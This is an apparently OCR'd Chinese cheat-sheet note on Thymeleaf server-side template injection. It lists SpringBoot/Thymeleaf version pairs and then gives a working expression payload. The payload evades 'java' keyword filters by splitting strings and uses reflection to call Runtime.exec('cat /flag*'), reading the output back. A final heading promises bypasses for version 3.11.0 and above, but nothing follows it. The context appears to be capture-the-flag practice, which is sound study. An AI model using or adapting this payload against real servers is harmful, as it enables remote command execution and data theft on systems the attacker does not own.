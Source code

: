 Thymeleaf 模版注入
SpringBoot     Thymeleaf
2.2.0.RELEASE  3.0.11
2.4.10         3.0.12
2.7.18         3.0.15
3.0.8          3.1.1
3.2.2          3.1.2
java关键字绕过
${true.getClass().forName("ja"+"va.util.Scanner").getConstructor(true.getClass().forName("ja"+"va.io.InputStream")).newInstance(true.getClass().forName("ja"+"va.lang.Runtime").getMethods()[6].invoke(true.getClass().forName("ja"+"va.lang.Runtime")).exec("cat /flag*").getInputStream()).getClass().getMethod("nextLine").invoke(true.getClass().forName("ja"+"va.util.Scanner").getConstructor(true.getClass().forName("ja"+"va.io.InputStream")).newInstance(true.getClass().forName("ja"+"va.lang.Runtime").getMethods()[6].invoke(true.getClass().forName("ja"+"va.lang.Runtime")).exec("cat /flag*").getInputStream()))}
3.11.0以上绕过
